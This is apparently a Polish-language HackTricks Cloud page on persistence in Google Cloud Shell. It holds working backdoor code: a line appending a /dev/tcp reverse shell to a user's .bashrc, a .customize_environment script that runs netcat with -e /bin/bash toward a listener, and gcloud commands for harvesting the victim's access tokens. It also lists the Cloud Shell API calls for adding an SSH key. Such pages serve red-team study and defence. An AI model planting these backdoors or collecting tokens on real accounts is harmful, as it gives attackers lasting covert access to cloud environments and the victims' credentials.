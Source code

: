 # GCP - Trwałość Cloud Shell

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Cloud Shell

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Trwały Tylny Drzwi

[**Google Cloud Shell**](https://cloud.google.com/shell/) zapewnia dostęp do wiersza poleceń do zasobów chmurowych bezpośrednio z przeglądarki bez dodatkowych kosztów.

Możesz uzyskać dostęp do Cloud Shell Google'a z **konsoli internetowej** lub uruchamiając **`gcloud cloud-shell ssh`**.

Ta konsola ma kilka interesujących możliwości dla atakujących:

1. **Każdy użytkownik Google z dostępem do Google Cloud** ma dostęp do w pełni uwierzytelnionej instancji Cloud Shell (Konta usług mogą, nawet będąc właścicielami organizacji).
2. Wspomniana instancja **zachowa swoją katalog domowy przez co najmniej 120 dni**, jeśli nie wystąpi żadna aktywność.
3. Nie ma **możliwości dla organizacji monitorowania** aktywności tej instancji.

Oznacza to w zasadzie, że atakujący może umieścić tylnie drzwi w katalogu domowym użytkownika i dopóki użytkownik łączy się z GC Shell co najmniej co 120 dni, tylnie drzwi przetrwają, a atakujący otrzyma powłokę za każdym razem, gdy zostanie uruchomiona, po prostu wykonując:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

W folderze domowym istnieje inny plik o nazwie **`.customize_environment`**, który, jeśli istnieje, będzie **wykonywany za każdym razem**, gdy użytkownik uzyskuje dostęp do **cloud shell** (tak jak w poprzedniej technice). Wystarczy wstawić poprzednie tylne drzwi lub podobne, aby utrzymać trwałość tak długo, jak użytkownik "często" korzysta z cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ważne jest zauważenie, że **za pierwszym razem, gdy wykonywane jest działanie wymagające uwierzytelnienia**, w przeglądarce użytkownika pojawia się okno autoryzacji. To okno musi zostać zaakceptowane, zanim polecenie zostanie wykonane. Jeśli pojawi się nieoczekiwane okno, może to wzbudzić podejrzenia i potencjalnie narazić używaną metodę trwałości na ryzyko.
{% endhint %}

To jest okno pop-up po wykonaniu polecenia `gcloud projects list` z powłoki chmury (jako atakujący) widzianej w sesji użytkownika przeglądarki:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Jednakże, jeśli użytkownik aktywnie korzystał z powłoki chmury, okno pop-up nie pojawi się i można **zbierać tokeny użytkownika za pomocą**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jak jest nawiązywane połączenie SSH

W zasadzie używane są te 3 wywołania API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (pozwoli Ci dodać swój klucz publiczny utworzony lokalnie)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (pozwoli Ci uruchomić instancję)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (poda Ci adres IP powłoki Google Cloud)

Ale możesz znaleźć więcej informacji pod adresem [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referencje

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
